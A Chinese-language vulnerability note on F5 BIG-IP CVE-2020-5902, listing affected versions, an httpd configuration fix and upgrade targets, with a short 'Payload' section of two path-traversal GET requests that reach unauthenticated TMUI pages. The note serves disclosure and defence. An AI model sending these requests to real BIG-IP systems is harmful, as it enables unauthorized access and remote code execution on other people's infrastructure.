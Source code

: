 # F5 BIG-IP 远程代码执行漏洞（CVE-2020-5902）

编辑：r4v3zn

## Payload

```
GET /tmui/login.jsp/..;/tmui/system/user/authproperties.jsp 

GET /tmui/login.jsp/..;/tmui/util/getTabSet.jsp?tabId=AnyMsgHereWillBeReflectedInTheResponse
```

![](cve-2020-5902/1.png)

## 概况

F5 BIG-IP 是美国 F5 公司的一款集成了网络流量管理、应用程序安全管理、负载均衡等功能的应用交付平台。2020 年7 月 1日，F5 公布流量管理用户界面（TMUI），也称为配置实用程序，在未公开的页面中具有远程执行代码（RCE）漏洞，漏洞编号为 CVE-2020-5902。

攻击者可利用该漏洞执行任意的系统命令、创建或删除文件，关闭服务/执行任意的Java代码，可能完全入侵系统，对此漏洞 CVSS 评分 10 分。

## 影响版本

- BIG-IP = 15.1.0
- BIG-IP = 15.0.0
- BIG-IP 14.1.0 - 14.1.2
- BIG-IP 13.1.0 - 13.1.3
- BIG-IP 12.1.0 - 12.1.5
- BIG-IP 11.6.1 - 11.6.5

## 分析过程

无

## 靶场

无

## 修复

1. 登陆 TMOS Shell（**tmsh**）执行：

`tmsh`

2. 修改 httpd 配置信息：

```
edit /sys httpd all-properties
```

3. 找到`include` 部分并添加以下内容：

```
include '
<LocationMatch ".*\.\.;.*">
Redirect 404 /
</LocationMatch>
'
```

4. 通过输入以下命令，将更改写入并保存到配置文件中：

```
Esc
:wq!
```

5. 通过输入以下命令来保存配置：

```
save /sys config
```

6. 通过输入以下命令来重新启动**httpd**服务：

```
restart sys service httpd
```

也可以通过升级的方式来进行修复：

- BIG-IP 15.x 升级至 15.1.0.4

- BIG-IP 14.x 升级至 14.1.2.6
- BIG-IP 13.x 升级至 13.1.3.4
- BIG-IP 12.x 升级至 12.1.5.2
- BIG-IP 11.x 升级至 11.6.5.2

## 分析文章



## 参考

- https://twitter.com/Nep_1337_1998/status/1279610946864820225